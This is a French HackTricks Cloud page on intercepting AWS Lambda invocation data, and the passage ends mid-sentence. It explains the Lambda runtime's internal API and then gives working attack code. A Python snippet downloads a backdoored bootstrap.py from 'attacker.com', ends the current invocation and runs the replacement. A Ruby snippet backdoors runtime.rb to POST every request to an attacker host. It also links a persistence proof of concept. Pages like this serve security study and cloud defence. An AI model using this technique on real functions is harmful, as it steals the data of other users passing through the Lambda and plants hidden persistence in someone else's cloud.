 # AWS - Vol de requêtes Lambda

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **dépôts Github.**

</details>

## Introduction <a href="#python-runtime" id="python-runtime"></a>

Cette attaque suppose que vous avez un certain type d'**accès sur une Lambda en cours d'exécution**.\
Il est également important de noter que **les invocations de Lambda ne sont pas complètement séparées les unes des autres mais sont isolées**. Elles peuvent s'exécuter, bien que pas simultanément, dans le même environnement d'exécution. Avec cela à l'esprit, commençons à disséquer cet environnement.

### Isolation

L'isolation de Lambda utilise ces cgroups :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

Comme le préfixe 'sandbox' ne correspondait à aucun moteur de conteneur commun (docker, podman, LXD, rkt), il pourrait s'agir d'un moteur de conteneur propriétaire, qui pourrait utiliser en interne un runtime de conteneur open source comme [runC](https://github.com/opencontainers/runc).

### Comment fonctionnent les Lambdas  <a href="#python-runtime" id="python-runtime"></a>

Voici l'architecture de la Lambda Python :

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. Un processus en dehors du conteneur, appelé "**slicer**" dans le binaire init, envoie des événements d'invocation au processus **init** via la mémoire partagée.
2. Le processus init configure un serveur HTTP sur le port 9001 (codé en dur), avec plusieurs points de terminaison exposés :
   1. /2018-06-01/runtime/invocation/**next** – obtenir le prochain événement d'invocation
   2. /2018-06-01/runtime/invocation/{invoke-id}/**response** – renvoyer la réponse du gestionnaire pour l'invocation
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** – renvoyer une erreur d'exécution
3. Dans `bootstrap.py`, la boucle suivante **interroge le processus init pour un nouvel événement**, puis **appelle la fonction de l'utilisateur** pour le traiter (ici, le gestionnaire de requêtes que vous avez téléchargé s'exécute).\


    <figure><img src="../../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>
4. La **réponse du gestionnaire est ensuite renvoyée au processus init** via l'un des points de terminaison suivants :
   1. `/{invoke-id}/response` – si le gestionnaire de l'utilisateur s'est exécuté avec succès
   2. `/{invoke-id}/error` – si une exception a été levée lors du traitement de l'invocation

## Résumé de la technique <a href="#python-runtime" id="python-runtime"></a>

Il est possible de **remplacer le script bootstrap** par un code malveillant pour pouvoir **intercepter les données** envoyées à la fonction Lambda.\
Notez que **d'autres moteurs dans d'autres langues** ont un autre **script bootstrap** écrit dans cette langue, donc cela peut être fait **aussi dans d'autres lambdas utilisant d'autres langues**, pas seulement en python.

## Python <a href="#python-runtime" id="python-runtime"></a>

À partir de la lambda, téléchargez **`/var/runtime/bootstrap.py`** (ou lancez simplement **votre propre lambda** et récupérez-le) et ajoutez la porte dérobée qui va fuir toutes les données envoyées à Lambda. Vous avez juste besoin d'ajouter quelques lignes comme :

<figure><img src="../../../../.gitbook/assets/image (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Remplacement du runtime

Maintenant, avec le nouveau **`boostrap.py` créé**, il est possible de le **télécharger**, **terminer l'invocation lambda actuelle** et l'exécuter pour **remplacer** le script légitime :

```python
import os
from urllib import request

# Télécharger bootstrap.py depuis votre serveur
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
    f.write(r.read().decode('utf-8'))

# Obtenir l'ID d'invocation et le terminer
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Démarrer votre bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```

Ou vous pouvez également utiliser [twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py), qui mettra fin à l'invocation comme précédemment, exécutera le nouveau bootstrap et exfiltrera les informations.

{% hint style="warning" %}
Si une fonction lambda n'est pas utilisée pendant 5 à 15 minutes, elle sera arrêtée, et tous les changements seront perdus la prochaine fois qu'elle sera invoquée.
{% endhint %}

## Runtime Ruby <a href="#ruby-runtime" id="ruby-runtime"></a>

En Ruby, le fichier que vous voulez backdoor est le fichier **`/var/runtime/lib/runtime.rb`** (obtenez-le à partir du système ou en exécutant votre propre lambda).

Ajouter une porte dérobée est aussi simple que dans la version Python :

```ruby
# Ajouter un require au début
require 'json'
require 'net/http'
[...]
# Dans la boucle où l'invocation est traitée
begin 
    context = lambdaContext.new(raw_request)
    uri = URI('http://attacker:80/leak')
    Net::HTTP.post(uri,JSON.generate(request))
    [...]
```

Ensuite, il vous suffit de faire ce que vous avez fait dans la version Python avec juste un changement :

* **Télécharger la porte dérobée dans un répertoire**
* **Créer un